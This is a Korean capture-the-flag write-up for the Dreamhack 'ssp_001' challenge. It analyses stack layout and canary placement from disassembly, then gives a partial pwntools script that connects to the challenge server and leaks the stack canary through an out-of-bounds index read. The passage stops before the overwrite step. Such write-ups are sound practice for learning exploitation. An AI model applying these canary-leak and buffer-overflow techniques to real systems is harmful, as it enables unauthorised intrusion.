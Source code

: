 <!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="style.css">
</head>
<body>
    <h1> Dreamhack "ssp_001"  Write-UP</h1>
</body>
<br>
<br>
</html>

2025.09.22 풀이

<img width="760" height="328" alt="image" src="https://github.com/user-attachments/assets/4c3b9cfd-af27-4398-8895-e9f1bb525e95" />

checksec 명령어를 통해 확인해보니, 카나리를 가지고 있는 것을 확인할 수 있었다.

<br>

</br> 

<img width="1106" height="1300" alt="image" src="https://github.com/user-attachments/assets/b23f9b4f-c65c-4b77-8d29-c7c334ef919d" />

<img width="1070" height="1344" alt="image" src="https://github.com/user-attachments/assets/b396edcf-b7df-41d1-baf3-2dd7821cd665" />

<img width="1168" height="510" alt="image" src="https://github.com/user-attachments/assets/cb7ef3f1-508b-48d9-a6e8-4a5bc90350a4" />

디스어셈블 명령어로 살펴보면,

sub esp,0x94을 통해, 스택 전체 크기가 0x94인 점,

버퍼는 ebp - 0x88에서 시작되는 점,

카나리는 ebp - 0x08에 저장된다는 점

버퍼와 카나리 저장 주소의 거리를 0x80인 것을 알 수 있다.

따라서 리턴 주소를 덮으려면 0x88 바이트까지 채워야 하는 것을 알 수 있다.

이를 이용하여 문제 풀이를 진행해보려고 한다. 

<br>

</br> 

```
from pwn import *

context.log_level='debug'
context(arch='i386', os = 'linux')

p = remote('host3.dreamhack.games', 14073)

p.recvuntil('> ')
p.send('F')

p.recvuntil('box input : ')
p.send(b'A' * 0x40)

canary_leak = ''
for i in range(128, 132) :
    p.recvuntil('> ')
    p.send('P')
    p.recvuntil('Element index : ')
    p.sendline(str(i))
    p.recvuntil('is : ')
    canary_leak = canary_leak + chr(int(p.recvn(2), 16))
    
```